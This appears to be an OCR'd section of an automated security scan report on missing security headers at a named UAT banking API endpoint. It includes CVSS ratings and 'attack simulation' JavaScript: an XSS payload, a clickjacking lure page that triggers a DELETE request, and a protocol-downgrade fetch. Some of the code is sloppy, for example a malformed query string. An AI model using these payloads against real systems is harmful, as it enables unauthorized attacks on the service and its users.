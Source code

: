 ### 5. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `X-XSS-Protection`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```
